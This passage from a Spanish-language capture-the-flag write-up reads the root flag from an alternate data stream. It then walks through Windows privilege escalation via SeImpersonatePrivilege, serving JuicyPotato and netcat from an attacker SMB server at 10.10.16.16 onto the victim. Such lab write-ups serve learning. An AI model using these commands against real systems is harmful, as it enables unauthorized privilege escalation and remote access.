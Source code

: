 Para `visualizar` este tipo de `archivos` podemos `usar` el comando `more`

```
C:\Users\Administrator\Desktop> more < hm.txt:root.txt    
afbc5bd4b615a60648cec41c6ac92530
```

## Privilege escalation (Second Method)

Listando `permisos` de `usuario` me encuentro con `SeImpersonatePrivilege`, el cual me llama la atención. Si buscamos en `Hacktricks` encontraremos un forma de `escalar privilegios` con este permiso [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

```
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Nos descargamos la última release de `JuicyPotato` [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato). Después de `descomprimir` los archivos y en el `mismo directorio` que los binarios nos montamos un `servidor smb`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina víctima usando `copy` obtenemos el binario

```
C:\Users\kohsuke\Desktop>copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
        1 file(s) copied.
```

Para transferirnos el `netcat` debemos crear el `servidor smb` dentro de la carpeta descomprimida y posteriormente `transferirnos` el archivo con `copy`

```
C:\Users\kohsuke\Desktop>copy \\10.10.16.16\smbFolder\nc.exe .
copy \\10.10.16.16\smbFolder\nc.exe .
        1 file(s) copied.
```
